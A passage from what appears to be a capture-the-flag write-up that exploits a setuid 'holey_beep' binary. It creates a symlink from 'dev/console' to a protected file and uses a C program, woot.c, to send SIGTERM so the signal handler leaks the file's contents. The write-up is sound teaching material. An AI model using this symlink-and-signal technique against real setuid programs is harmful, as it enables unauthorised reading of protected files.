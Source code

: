 ```c
    if ((device = open("dev/console", O_RDONLY)) < 0) {
      errx(1, "open(\"dev/console\", O_RDONLY)");
    } else {
      int period = atoi(argv[i]);
      if (ioctl(device, KIOCSOUND, period) < 0)
        fprintf(stderr, "ioctl(%d, KIOCSOUND, %d) failed.", device, period);
      close(device);
    }
  }
}

```
With the source code in hand, exploiting the `setuid` `holey_beep` becomes trivial.

Right off the bat, the program registers a signal handling function, `handle_sigterm`, which will take control of execution when `SIGTERM`, a termination signal gets sent to the program.

If the file descriptor `device` is a positive number, the program will read 1023 bytes from it and print the result to `stderr`. Note that the signal handler is counting on `ioctl` to fail.

Under what circumstances will `ioctl` fail? As long as the file descriptor is not opened to a character device, `ioctl` fails. Simple as that.

We could create a symbolic link between `/secret_cake_recipe` and `dev/console`. When the program executes, a file descriptor gets opened to `dev/console` (not a character device) which is a symbolic link to `/secret_cake_recipe`. Perfect.

Now, how do we send a `SIGTERM` while the program is running? To that end, I wrote `woot.c` to automate this.

<div class="filename"><span>woot.c</span></div>
```c
#include <signal.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
  pid_t pid = fork();

  if (pid == 0) {
    char *args[] = {"/home/user/holey_beep", "0", NULL};
    execv(args[0], args);
  } else {
    usleep(atoi(argv[1]));
    kill(pid, SIGTERM);
  }

  return 0;
}
```

We'll need to use the shell from the previous challenge. Remember, there's no `gcc`, so we'll have to compile it locally, compress it and then copy the `base64` representation over to the shell. In the shell, we'll have to reverse the process.
